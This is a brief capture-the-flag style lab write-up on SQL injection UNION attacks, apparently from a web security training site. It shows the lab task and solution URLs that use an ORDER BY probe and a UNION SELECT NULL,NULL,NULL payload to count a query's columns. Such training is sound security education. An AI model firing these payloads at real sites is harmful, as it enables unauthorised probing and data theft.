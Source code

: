 Lab: SQL injection UNION attack, determining the number of columns returned by the query
Level: PRactitioner

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.



https://ac831f5b1f0e6f77c08433a600cb0045.web-security-academy.net/filter?category=%27order+by+3--

Solution: UNION+SELECT+NULL,NULL,NULL--


https://ac831f5b1f0e6f77c08433a600cb0045.web-security-academy.net/filter?category=accesories%27UNION+SELECT+NULL,NULL,NULL--


